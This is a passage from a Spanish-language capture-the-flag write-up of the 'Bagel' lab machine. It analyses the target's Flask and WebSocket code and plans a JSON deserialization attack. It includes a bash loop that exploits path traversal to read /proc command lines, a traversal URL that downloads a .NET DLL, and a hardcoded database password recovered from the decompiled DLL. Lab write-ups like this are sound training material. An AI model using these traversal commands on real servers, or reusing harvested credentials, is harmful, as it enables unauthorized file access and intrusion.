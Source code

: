 ```python
@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```



# Deserialización Json y análisis de código:

- Como podemos deducir, se está haciendo uso de un `webSocket` en el puerto `5000` el cual envía en formato `json` el contenido del archivo "orders.txt" haciendo uso de la función "ReadOrder"; nos podemos hacer a la idea de una posible deserialización Json; además, se hace mención de credenciales "SSH", esta información la usaremos más adelante.

- Si hacemos una búsqueda de cada proceso que se está ejecutando dentro del sistema encontramos un archivo `"bagel.dll"`:

```bash
for i in $(seq 900 1000); do curl http://10.129.21.151:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done
```

- Encontramos la ruta de dicho archivo y accedemos a él:

```bash
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
```

```
http://bagel.htb:8000/?page=../../../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll
```

- Descargamos el archivo y lo analizamos profundamente con [iILSpy: .NET Decompiler](https://github.com/icsharpcode/ILSpy)

- Encontramos posibles `credenciales`: 

```c#
string text = "Data Source=ip;Initial Catalog=Orders;User ID=dev;Password=k8wdAYYKyhnjg3K";
```

- Encontramos varias funciones interesantes como: ReadOrder, WriteOrder, RemoveOrder, ReadFile, WriteFile.
